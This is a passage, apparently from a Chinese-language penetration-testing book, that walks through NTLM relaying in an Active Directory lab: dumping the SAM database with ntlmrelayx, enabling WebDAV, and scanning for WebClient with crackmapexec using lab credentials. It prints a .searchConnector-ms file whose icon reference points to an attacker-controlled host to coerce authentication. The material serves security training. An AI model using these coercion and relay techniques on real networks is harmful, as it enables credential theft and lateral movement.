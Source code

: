 图 5.8 – 中继 NTLM v2 响应并转储 SAM 数据库

需要提到的是，自 `MS08-68` 以来，无法将哈希值中继到自身。`ntlmrelayx` 还有一个选项 (--socks)，可以使用 SMB 连接作为 `SOCKS` 代理，避免嘈杂的登录并且不需要在主机上获得管理员权限。然后，我们可以使用代理链来运行我们想要的工具。

下一步，我们将使用中继进行 LDAP 枚举。由于域控制器要求签名，因此我们无法中继通过 SMB 获取的哈希值，因此如果已安装 WebDAV 服务（如 *Jean_Maes_1994* 在这里所示：[`www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/`](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)）或者尝试 `mitm6`，我们可以使用 WebDAV 服务。实验室创建者演示了如何使用 `mitm6` 工具包，因此我们将展示 WebDAV 场景，并在实验室中对 `castelblack` 进行必要的更改。

注

在我们开始之前，您可以在这里阅读更多信息：[`www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient`](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient)。

作为在 castelblack 上的第一个准备步骤，我们需要通过 PowerShell 以 **管理员** 身份安装一个名为 `WebDAV Redirector` 的功能：

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

在以下截图中，我们可以看到该功能已成功安装，且服务已停止：

![图 5.9 – WebClient 服务已成功安装](img/B18964_05_09.jpg)

图 5.9 – WebClient 服务已成功安装

现在让我们通过将 `.searchConnector-ms` 文件放置在公共共享上，强制启动 WebClient 服务，正如 *MDSec* 研究人员所描述的那样，内容如下：

```
<?xml version="1.0" encoding="UTF-8"?> <searchConnectorDescription > <iconReference>imageres.dll,-1002</iconReference> <description>Microsoft Outlook</description> <isSearchOnlyItem>false</isSearchOnlyItem> <includeInStartMenuScope>true</includeInStartMenuScope> <iconReference>https://192.168.56.22/public/0001.ico</iconReference> <templateInfo> <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType> </templateInfo> <simpleLocation> <url>https://example.com/</url> </simpleLocation> </searchConnectorDescription>
```

然后我们可以验证服务是否成功启动。如果我们不知道网络中有任何运行 WebClient 服务的服务器，我们可以使用 `CrackMapExec` 模块 `WebDAV` 扫描 IP 范围：

```
crackmapexec smb 192.168.56.0/24 -u arya.stark -p Needle -d north -M webdav
```

我们的侦查活动结果显示在以下截图中：
